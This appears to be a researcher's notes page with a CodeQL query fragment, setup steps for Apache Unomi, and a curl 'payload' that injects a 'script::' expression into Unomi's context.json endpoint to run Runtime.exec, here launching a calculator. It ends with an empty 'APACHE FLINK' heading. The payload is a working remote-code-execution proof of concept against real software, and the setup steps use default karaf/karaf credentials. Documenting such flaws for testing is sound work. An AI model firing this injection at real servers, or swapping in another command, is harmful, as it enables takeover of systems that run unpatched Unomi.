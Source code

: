 ```sql

// from TryStmt try, CatchClause catch, MethodAccess trycall, MethodAccess catchcall,
//     VarAccess e
// where catch = try.getACatchClause()
//     and trycall = try.getBlock().getAChild().(ExprStmt).getExpr()
//     and catchcall = catch.getBlock().getAChild().(ExprStmt).getExpr()
//     and e = catch.getVariable().getAnAccess()
//     and catchcall.getMethod().getName().regexpMatch("debug|info|warn|error|assert.*")
//     and catchcall.getAnArgument().getAChildExpr*() = e
// select try, catch.getVariable().getAnAccess()
```



## APACHE UMINO

```
Install JDK 8 (see http://www.oracle.com/technetwork/java/javase/downloads/index.html and make sure you set the JAVA_HOME variable https://docs.oracle.com/cd/E19182-01/820-7851/inst_cli_jdk_javahome_t/
Download ElasticSearch here : https://www.elastic.co/downloads/past-releases (please make sure you use the proper version : [7.4.2 for Unomi >= 1.5] and [5.6.3 for Unomi >= 1.3] and [5.1.2 for Unomi <= 1.2])
Uncompress it and change the config/elasticsearch.yml to include the following config : cluster.name: contextElasticSearch
Launch ElasticSearch using : bin/elasticsearch
Download Apache Unomi here : http://unomi.apache.org/download.html
Start it using : ./bin/karaf
Start the Apache Unomi packages using unomi:start in the Apache Karaf Shell
Wait for startup to complete
Try accessing https://localhost:9443/cxs/cluster with username/password: karaf/karaf . You might get a certificate warning in your browser, just accept it despite the warning it is safe.
Request your first context by simply accessing : http://localhost:8181/context.js?sessionId=1234
If something goes wrong, you should check the logs in ./data/log/karaf.log. If you get errors on ElasticSearch, make sure you are using the proper version.
```



payload 

```
curl -X POST http://localhost:8181/context.json --header 'Content-type: application/json' --data '{"filters":[{"id":"boom ","filters":[{"condition":{"parameterValues":{"propertyName":"prop","comparisonOperator":"equals","propertyValue":"script::Runtime r=Runtime.getRuntime();r.exec(\"gnome-calculator\");"},"type":"profilePropertyCondition"}}]}],"sessionId":"boom"}'

```



## APACHE FLINK


